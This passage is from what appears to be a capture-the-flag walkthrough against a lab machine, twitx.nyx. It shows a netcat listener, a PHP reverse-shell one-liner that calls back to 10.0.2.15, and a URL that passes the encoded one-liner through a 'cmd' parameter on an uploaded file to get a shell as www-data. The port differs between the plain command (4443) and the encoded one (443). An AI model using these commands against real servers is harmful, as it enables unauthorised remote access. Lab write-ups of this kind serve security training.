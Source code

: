 ![img_p8_1](../../assets/images/twitx/img_p8_1.png)

Now it’s time to try to make a reverse shell with what we have achieved.

We start by setting up a netcat listener on the desired port.

![img_p8_2](../../assets/images/twitx/img_p8_2.png)

Since we know the server has PHP installed, we use the following reverse shell:

`php -r '$sock=fsockopen("10.0.2.15",4443);exec("/bin/bash <&3 >&3 2>&3");'`

But first, we url encode it:

`php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.2.15%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

Now we just need to load the following URL:

`http://twitx.nyx/private.php?folder=upload&file=17777047896641350dc29929.54816126.png&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.2.15%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

and we get a shell as www-data.
